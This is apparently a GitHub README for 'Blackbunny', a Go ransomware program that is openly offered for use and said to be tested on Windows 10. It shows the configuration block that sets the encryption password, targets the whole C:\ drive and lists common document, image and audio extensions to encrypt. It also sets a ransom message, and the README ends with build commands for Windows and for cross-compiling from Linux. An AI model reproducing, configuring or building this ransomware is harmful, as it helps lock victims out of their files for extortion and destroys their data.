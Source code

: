 # Blackbunny
blackbunny simple ransomware written in go<br>
tested on windows 10<br>

to use:<br>

first go to main.go file and change the settings<br>

```golang
	key := "password" // the password to encrypt files
	rootdir := "C:\\" // root directory
	fileextentions := []string{"jpg", "png", "pdf", "txt", "doc", "jpeg", "lnk", "docx", "mp3"} // valid files extensions 
	size := 314572800 // maximum file size to encrypt (encryting huge files can decrease encryption speed)
	message := "huhu i have encrypted all of your files enter password to get your files back" // message you want to show when file executes
```

and run:<br>

go build main.go # windows<br> 
env GOOS=windows GOARCH=amd64 go build main.go #linux bash
